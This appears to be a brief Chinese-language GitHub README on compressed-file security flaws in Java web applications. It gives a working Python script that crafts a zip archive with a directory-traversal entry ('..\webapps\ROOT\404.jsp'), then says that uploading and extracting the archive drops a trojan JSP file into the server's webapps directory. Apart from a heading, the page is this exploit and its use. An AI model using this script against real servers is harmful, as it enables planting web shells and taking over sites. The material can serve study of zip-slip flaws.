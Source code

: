 # Java-Compressed-file-security java web 压缩文件 安全 漏洞

![](./zip.png)

## 0x01 制作目录穿越-恶意压缩文件

代码：

```
#coding=utf-8

import zipfile  
import sys

if __name__ == "__main__":  
    try:
        with open("404.jsp", "r") as f:
            binary = f.read()
            zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
            info = zipfile.ZipInfo("test.zip")
            zipFile.writestr("..\\webapps\\ROOT\\404.jsp", binary)
            zipFile.close()
    except IOError as e:
        raise e

```

## 0x02 文件上传，点击解压缩，木马文件解压到网站webapps目录



